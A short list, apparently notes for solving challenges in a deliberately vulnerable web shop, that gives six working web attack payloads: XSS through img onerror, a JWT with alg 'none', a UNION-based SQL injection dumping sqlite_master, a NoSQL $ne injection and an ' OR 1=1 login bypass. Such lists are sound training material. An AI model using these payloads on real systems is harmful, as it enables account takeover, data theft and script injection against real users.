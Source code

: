1. Search bar:

   `<img src='1' onerror='alert(1)'>`

2. Customer feedback:

    `<<script<>img</img> src='1' onerror='alert(1)'></img>`

3. Support chat:

    `{"typ":"JWT","alg":"none"}`

4. Product search (`/rest/products/search?q=`):

    URL encoded: `a')) UNION SELECT 1, tbl_name, "a", 1, 2, null, null, null, null FROM sqlite_master WHERE type="table" --`

5. Edit review `PATCH /rest/products/reviews`:

   `"id": {"$ne": "a"},`

6. Login form:

   Email: `' OR 1=1 --`
